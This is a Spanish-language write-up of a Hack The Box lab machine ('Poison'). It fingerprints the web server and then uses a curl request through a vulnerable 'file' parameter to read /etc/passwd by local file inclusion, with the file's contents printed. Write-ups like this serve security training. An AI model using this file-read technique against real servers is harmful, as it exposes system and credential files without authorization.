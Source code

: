 Estas son las tecnologías que esta corriendo el servicio web

```ruby
❯ whatweb http://10.129.1.254
http://10.129.1.254 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[FreeBSD][Apache/2.4.29 (FreeBSD) PHP/5.6.32], IP[10.129.1.254], PHP[5.6.32], X-Powered-By[PHP/5.6.32]
```

Esta es la pagina web

![](/assets/images/htb-writeup-poison/web1.png)

Y bueno nos están diciendo que la web es para probar **scripts** en **php**

Si le damos en `Submit` sin subir nada vemos que nos el siguiente error

![](/assets/images/htb-writeup-poison/web2.png)

Ademas en la `url` vemos que mediante un parámetro llamado `file` se ve que este es el encargado de apuntar a los archivos que tenemos que indicar y como no le indicamos nada pues no esta apuntando a nada es por eso que nos da error

## Local File Inclusion (LFI)

Bueno si probamos pasando una ruta como el `/etc/passwd` vemos que funciona y con esto sabemos que es vulnerable a `LFI` 

```bash
❯ curl -s 'http://10.129.1.254/browse.php?file=/etc/passwd'
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin
news:*:8:8:News Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
```